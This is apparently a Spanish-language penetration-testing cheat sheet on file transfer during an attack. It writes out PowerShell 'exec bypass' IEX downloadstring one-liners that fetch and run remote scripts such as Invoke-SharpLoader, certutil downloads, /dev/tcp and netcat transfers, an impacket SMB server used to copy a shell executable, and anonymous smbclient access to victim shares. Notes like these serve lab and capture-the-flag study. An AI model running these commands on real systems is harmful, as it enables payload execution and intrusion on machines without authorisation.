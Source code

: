 #Transferencia de archivos usando powershell
# 1
En kali python3 -m http.server 80
En windows $powershell.exe -exec bypass iex(new-object net.webclient).downloadstring('http://<ip>/path/file.ps1');

# 2
En kali 
python3 -m http.server 80
En windows $powershell:
IEX(New-Object Net.WebClient).downloadString('http://<ip>/Invoke-SharpLoader.ps1')

Tambien
// powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')

#Transferencia de archivos desde windows 
En windows:
certutil.exe -urlcache -f http://10.0.0.5/file.exe namefile.exe   // certutil -urlcache -split -f "http://ip-addr:port/file" [output-file]
En Linux:
python3 -m http.server 80 (version anterior de python es python -m SimpleHTTPServer 80

#Transferencia de archivos de linux a linux
Maquina destino
cat > file < /dev/tcp/<ip_remota>/7777

Maquina archivo
nc -nlvp 7777 < archivo

#Transferencia de archivos Linux por WGET
wget http://ip-addr[:port]/file[-o output-file] 
Siempre y cuando exista o una url o un servidor 
wget ftp://ip/file.sh -o ftpfile.sh
wget ftp://ip/file.sh --ftp-user=root --ftp-password=pass123 -o ftpfile.sh

#Transferencia de archivos usando Curl
curl http://ip:8001/file.sh -o curlfile.sh

Traspasar archivos desde Windows a Linux SMB
Desde Linux
sudo impacket-smbserver smbFolder $(pwd) -smb2support

Desde Windows
explorer.exe ... \\<ip>\smbFolder


#Desde Kali a windows usando SMBServer
En kali
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
En windows
C:\Users\user>copy \\10.6.56.15\kali\shell1.exe C:\\PrivEsc\shell1_copy.exe

## Conexion a servicios
SMB carpetas compartidas por smb
- smbclient //<ip victima>/anonymous #usuario anonymous no requiere contraseña
- smbclient -l //10.10.58.241/ -I 10.10.58.241
 